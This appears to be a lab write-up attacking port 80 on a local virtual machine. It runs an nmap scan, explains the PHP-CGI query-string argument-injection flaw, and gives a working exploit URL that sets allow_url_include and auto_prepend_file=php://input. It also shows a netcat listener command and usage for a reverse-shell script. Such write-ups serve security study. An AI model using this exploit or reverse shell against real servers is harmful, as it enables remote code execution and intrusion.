








# Attacking port 80
### Service scan
```
[root@admin php]# nmap -p80 -sV $ip
Nmap scan report for 192.168.56.101

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
```
### Analysis 
- Visiting the website, this is displayed on the hopepage

- There is a phpMyAdmin link, proving it uses Apache + PHP as the stack
- The `http://192.168.56.101/phpinfo/` is open to all, leading to further information disclosure

- Here we can find the version of PHP and Server API used.
- On https://cve-explore.com, we can find the vulnerabilities using Apache and PHP versions used


- Source code is available at https://php.source-code.mirror.naxonet.net/php/5.2.4/
- The vulnerable code at `sapi/cgi/cgi_main.c`

- The program checks if there is a server running, if true then cgi variable is set to 1
- However when parsing command line arguments using `php_getopt()`, it does not check the cgi variable to see if the server is running
- cgi has a special rule for query strings without a unencoded `=` character, if one doesn't exist in the query sting, it may
	- Treat the query as sequence of words
	- Split those using the `=` sign
	- URL decode each word
	- Add them to the cgi program's command-line arguments
- This results in `/index.php?hello+world` to turn into
```
argv[i] = "hello"
argv[i+1] = "world"
```
- We can then use this behavior with the code above to inject custom ini entries using `-d` and `%3d` which is the url encoded `=` character which is then decoded later.
- Eg: `/index.php?-ddisplay_errors%3d1`
```
argv[i] = "-d"
argv[i+1] = "display_errors=1"
```
### Exploit
- We'll be using 
	- `allow_url_include=on`: Allows php to include file from url like `php://input`
	- `auto_prepend_file=php://input` 
		- `php://input` : Takes the input from request body
		- `auto_prepend_file` : Executes the given file before the requested file 
			- eg: `input is executed before index.php` 
- Exploit injection
	- `http://192.168.56.101/?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input`
- Opening a listener on port `4444`, (Note: This is my own reverse shell handler, can be found on my github, you can just use `nc -nlvp 4444`)

- Sending exploit through Burp suite

- Or you can use the python script provided
- `python3 php_cgi_exploit.py TARGET TARGET_PORT HOST HOST_PORT`
- eg: `python3 php_cgi_exploit.py 192.168.56.101 80 192.168.56.1 4444`

